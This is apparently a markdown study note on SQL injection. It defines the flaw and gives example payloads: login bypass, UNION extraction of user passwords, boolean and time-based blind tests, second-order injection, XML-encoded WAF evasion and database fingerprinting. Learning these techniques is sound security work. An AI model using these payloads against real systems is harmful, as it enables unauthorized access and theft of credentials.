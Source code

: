 ## 📌 What is SQL Injection?

SQLi is a vulnerability where user input is unsafely embedded into database queries, allowing attackers to manipulate or control those queries.

> manipulate or control those queries.

### 🔓 What attackers can do with SQLi:

- View unauthorized data (passwords, credit card info)
- Bypass login
- Modify or delete records
- Access other database tables
- Execute OS commands (in advanced cases)   
- Persistently backdoor the server    
- Perform denial of service (DoS)


## 🔍 How to Detect SQLi

-  Start with ' (Single quote), If it gives error, It is vulnerable to sql injection.
-  Try to   `OR 1=1--`   to get extra info or to bypass login.
-   Use `' UNION SELECT NULL--`  to determine the number of the column.
-   Use `<xml>&#x53;ELECT ...</xml>` when you find xml query.

--- 

## 🧪 Real Examples

### 🔹 1. Retrieving Hidden Data (Classic SQLi)

#### 🧾 Normal query:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

#### 🧨 Injected URL:
`https://site.com/products?category=Gifts'--`

#### 🧨 Resulting SQL:
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

--- 

### 🔹2. OR-Based Authentication Bypass

#### 🧾 Normal login query:
`SELECT * FROM users WHERE username = 'user' AND password = 'pass'`

#### 🧨 Injected input:
`Username: admin'-- Password: (blank)`

#### 🧨 Resulting SQL:
`SELECT * FROM users WHERE username = 'admin'--' AND password = ''`

✅ _Logs you in as admin without password._

--- 
### 🔹 3. [[UNION]] Injection - Extract Other Tables  

#### 🧾 Normal:
`SELECT name, description FROM products WHERE category = 'Gifts'`

#### 🧨 Injected:
`' UNION SELECT username, password FROM users--`

#### 🧨 Final query:
`SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users--'`

✅ _Shows usernames and passwords in product listings._

---

### 🔹 4. Blind SQL Injection (No visible output)

Use when app doesn’t show SQL errors.

#### 🧪 Boolean logic:
`' AND 1=1--   ✅ true ' AND 1=2--   ❌ false`

Compare responses. If page differs, the query is injectable.

#### ⏱ Time-based (for totally blind SQLi):
`' OR SLEEP(5)--         (MySQL) ' OR pg_sleep(5)--      (PostgreSQL) ' OR WAITFOR DELAY '0:0:5'--   (MSSQL)`

✅ _Server delay = injection successful._

---

### 🔹 5. Second-Order SQLi

- Injection occurs during **data retrieval**, not input.
- Example:
    - Attacker sets name to: `foo'--`
    - Later, that name is used in a vulnerable query:
        `SELECT * FROM users WHERE name = 'foo'--'`

---

### 🔹 6. SQLi via [[XML]] Input  

**Bypasses WAFs via encoding:**

`<stockCheck>
	`<productId> 1 </productId>
	`<storeId> 999 &#x53;ELECT * FROM users </storeId> 
`</stockCheck>`

✅ _S = S, server decodes and injects `SELECT`_


## 🔎 Identify DB Type:


`SELECT @@version`                          -- MySQL 
`SELECT version()`                          -- PostgreSQL 
`SELECT * FROM v$version`           -- Oracle 
`SELECT @@VERSION`                          -- MSSQL